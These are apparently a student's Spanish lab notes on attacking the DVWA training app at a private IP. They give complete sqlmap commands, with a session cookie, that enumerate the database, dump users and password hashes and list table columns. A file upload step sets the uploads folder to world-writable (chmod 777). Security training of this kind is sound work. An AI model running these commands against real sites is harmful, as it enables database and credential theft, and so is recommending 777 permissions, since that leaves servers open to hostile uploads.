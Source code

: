 
## Inyección, SQLMAP
URL
http://192.168.198.222/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#
Cookie
security=low; PHPSESSID=b42o8d17t7vbj8qd3gmgjjnha0 

Web analisis >SQLMAP
ingresar la url sin parametros 
patametros para hacerlo desde CLI
-u URL
--current-db
--currente-user
--cookie
-b obtener el baner 

sqlmap -u "http://192.168.198.222/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=b42o8d17t7vbj8qd3gmgjjnha0" -b --current-db --current-user


sqlmap -u "http://192.168.198.222/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=b42o8d17t7vbj8qd3gmgjjnha0" --string="Surname" --users --password


sqlmap -u "http://192.168.198.222/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=b42o8d17t7vbj8qd3gmgjjnha0" --string="Surname" --dump 

sqlmap -u "http://192.168.198.222/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=b42o8d17t7vbj8qd3gmgjjnha0" -D dwa -T users --columns

## File Upload
cambiar los permisos de archivo
ruta /var/www/html/DVWA/hackeable
sudo chmod -R  777 uploads ->darle perminos de rw a todos 
